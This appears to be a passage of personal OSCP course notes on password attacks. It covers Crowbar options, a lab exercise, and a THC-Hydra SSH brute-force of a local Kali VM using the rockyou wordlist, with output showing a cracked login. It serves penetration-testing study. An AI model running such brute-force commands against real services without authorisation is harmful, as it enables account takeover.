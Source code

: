  -d, --discover Port scan before attacking open ports
 -v, --verbose Enable verbose output (-vv for more)
 -D, --debug Enable debug mode
 -q, --quiet Only display successful logins
 

this is the password file

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/37.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/38.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/39.jpg)

19.3.2.1 Exercise

(Reporting is not required for these exercises)

1. Create a password list containing your Windows client password and use that to repeat theabove Crowbar password attack against the Windows client
19.3.3 SSH Attack with THC-Hydra

19.3.3 SSH Attack with THC-Hydra


• THC-Hydra is another powerful network service attack tool under active development and it is worth mastering.

• We can use it to attack a variety of protocol authentication schemes, including SSH and HTTP.

• The standard options include -l to specify the target username, -P to specify a wordlist, and protocol://IP to specify the target protocol and IP address respectively.

• In this first example, we will attack our Kali VM.

• We will use the SSH protocol on our local machinessh://127.0.0.1, focus on the kali user (-l kali), and again use the rockyou wordlist (-P):

kali@kali:~$ hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret servic
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 08:35:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommende
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:143443
[DATA] attacking ssh://127.0.0.1:22/
[22][ssh] host: 127.0.0.1 login: kali password: whatever
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 08:36:13


• In this output, we can see that hydra discovered a valid login against the 
 local SSH server

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/40.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/41.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/42.jpg)
